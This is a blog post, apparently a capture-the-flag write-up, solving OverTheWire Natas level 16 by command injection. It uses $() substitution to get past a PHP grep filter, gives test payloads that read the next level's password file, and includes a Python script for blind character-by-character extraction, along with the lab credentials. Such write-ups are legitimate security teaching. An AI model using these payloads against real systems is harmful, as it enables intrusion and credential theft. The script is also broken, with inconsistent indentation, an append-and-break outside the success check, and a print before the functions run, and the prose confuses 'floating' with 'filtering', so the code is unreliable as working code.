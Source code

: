 ```yaml
---
layout: post
title:  "Natas Level 16 → Level 17"
date: 2017-07-08
author: "Harsh Chawla"
tags: Overthewire Natas
---
```

<pre><h3><b>Level 16
Username : natas16
Password : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
URL      : http://natas16.natas.labs.overthewire.org</b></h3></pre>
### Solution

To solve this level, we first log into the natas16 application using the credentials provided above.

The application is reminiscent of [level 10](https://hchawla.github.io/2017/07/02/NatasL1011.html) which we were able to bypass using a simple grep trick. However, this time around, it seems like the application is filtering on some characters and doesn’t allow access to the passthru function if those characters are present.

```php
if($key != "") {
 if(preg_match('/[;|&`\'"]/',$key)) {
 print "Input contains an illegal character!";
 } else {
 passthru("grep -i \"$key\" dictionary.txt");
 }
}
```
The characters being filtered this time are **; | & ‘ ` "**. Moreover, unlike last time around, the user’s input is being passed within double quotes ( \”$key\” ) . Therefore, whatever the user searches for will be sent to the grep query and searched within the dictionary. Therefore, executing a query using grep seems unlikely.

To solve this issue, we make use of another one of BASH’s command line tricks. One of the ways of injecting a command within a BASH command is by using $(). Fortunately for us, all these 3 characters are still permissible to the application as the application does not filter these characters.

The $(…) form of command substitution permits nesting. You can read more about this [here](http://tldp.org/LDP/abs/html/loops1.html#BINGREP). Below is one of the examples from the web link.

```php
generate_list ()
{
 echo "one two three"
}

for word in $(generate_list) # Let "word" grab output of function.
do
 echo "$word"
done

# one
# two
# three
```

As we can see above, the command within $() is executed first and the results of that command is used to run the for loop. We can use the same concept and apply it to our learning from the previous SQL Injection problem and try to guess the password using the output of the main command.

Let’s try using the word ‘filtering’ in the search box. We can see below that the application responds with only one result. Therefore, any addition of letters to the word ‘filtering’ will cause the application to give no result at all. We can now use this knowledge similarly to the previous round. If the result of our command substitution returns nothing, the application will search for the word ‘floating’ and return the result. However, if our command substitution returns a letter back, the application will give no output.

![Natas16-1](https://securitytimes.files.wordpress.com/2017/06/6-29-2017-2-55-56-pm.png?w=663)

![Natas16-2](https://securitytimes.files.wordpress.com/2017/06/6-29-2017-3-00-33-pm.png?w=663)

Let’s assume that the password for the next level is **Password**. We’ll now create our own test cases and see how the application responds:

```
Search term : $(grep a /etc/natas_webpass/natas17)filtering
 Application query : passthru("grep -i "$(grep a /etc/natas_webpass/natas17)filtering" dictionary.txt")
 Application result : NULL
```

```
Search term : $(grep b /etc/natas_webpass/natas17)filtering
 Application query : passthru("grep -i "$(grep b /etc/natas_webpass/natas17)filtering" dictionary.txt")
 Application result : filtering
```

We will create a script that does this checking for us. Like the last [level](https://securitytimes.wordpress.com/2017/06/29/natas15-16/), we hope that the password will follow the same pattern as it has for all the previous level.

```python
import urllib2
alphanumericChars='1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
passwordChars=''
password=''
debug=0
targetURL='http://natas16.natas.labs.overthewire.org/'
passString = 'filtering'
REQ=urllib2.Request(targetURL, headers={"Authorization" : "Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=="})
try:
    contents = urllib2.urlopen(REQ).read()
   if debug:
        print contents
except urllib2.HTTPError as e:
    print e.code
     print e.read()

def findPassChars():
    global debug, passwordChars, targetURL, passString
    for c in alphanumericChars:
        completeURL=targetURL + '?needle=%24(grep+' + c + '+%2Fetc%2Fnatas_webpass%2Fnatas17)filtering&submit=Search'
        REQ=urllib2.Request(completeURL, headers={"Authorization" : "Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=="})
        contents = urllib2.urlopen(REQ).read()
        if contents.find(passString)==-1:
            passwordChars += c
            print 'Password contains character     :    ' + c
            if debug:
                print contents

def findPassword():
    global debug, passwordChars, targetURL, password
    for i in range(32):
         for c in passwordChars:
             completeURL=targetURL + '?needle=%24(grep+^' + password + c + '+%2Fetc%2Fnatas_webpass%2Fnatas17)filtering&submit=Search'
             REQ=urllib2.Request(completeURL, headers={"Authorization" : "Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=="})
             contents = urllib2.urlopen(REQ).read()
             if contents.find(passString)==-1:
                 if debug:
                     print contents
             password += c
             print 'Current password evaluation:' + password
             break
print password

findPassChars()
findPassword()
```

By using the above python code, we can first find out the characters in the password and then by using a simple grep technique, we can find out the position of the characters within the password.

<pre><h3><b>Level 17
Username : natas17
Password : 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
URL      : http://natas17.natas.labs.overthewire.org</b></h3></pre>
